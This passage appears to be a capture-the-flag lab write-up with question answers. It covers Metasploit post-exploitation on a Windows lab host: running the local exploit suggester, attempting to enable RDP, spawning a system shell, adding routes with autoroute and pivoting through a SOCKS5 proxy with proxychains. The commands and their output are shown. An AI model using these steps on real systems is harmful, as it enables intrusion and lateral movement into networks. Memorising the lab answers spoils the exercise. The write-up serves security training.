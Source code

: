 ```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.245.86 - Collecting local exploits for x86/windows...
[*] 10.10.245.86 - 38 exploit checks are being tried...
[+] 10.10.245.86 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
```

- Let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

```
meterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20210719182359_default_10.10.245.86_host.windows.cle_452025.txt
```

- One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell? [`shell`]

```
Stdapi: System Commands
=======================
...
    shell         Drop into a system command shell
...
```

```
meterpreter > shell
Process 2524 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>
```

- Metaploit autorouting can help list different networks the machine is on

- Let's go ahead and run the command ~~`run autoroute -h`~~ `run post/multi/manage/autoroute` (***the command changed***), this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: `172.18.1.0/24`? Use the `-n` flag in your answer. [~~`run autoroute -s 172.18.1.0/24 -n 255.255.255.0`~~ `run post/multi/manage/autoroute SUBNET=172.18.1.0/24`]
  - The

- Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command ~~`search server/socks5`~~ `search server/socks_proxy`. What is the full path to the socks5 auxiliary module? [~~`auxiliary/server/socks5`~~ `auxiliary/server/socks_proxy >>> set VERSION 5`]

- Once we've started a socks server we can modify our `/etc/proxychains.conf` file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with `proxychains`? [`proxychains`]
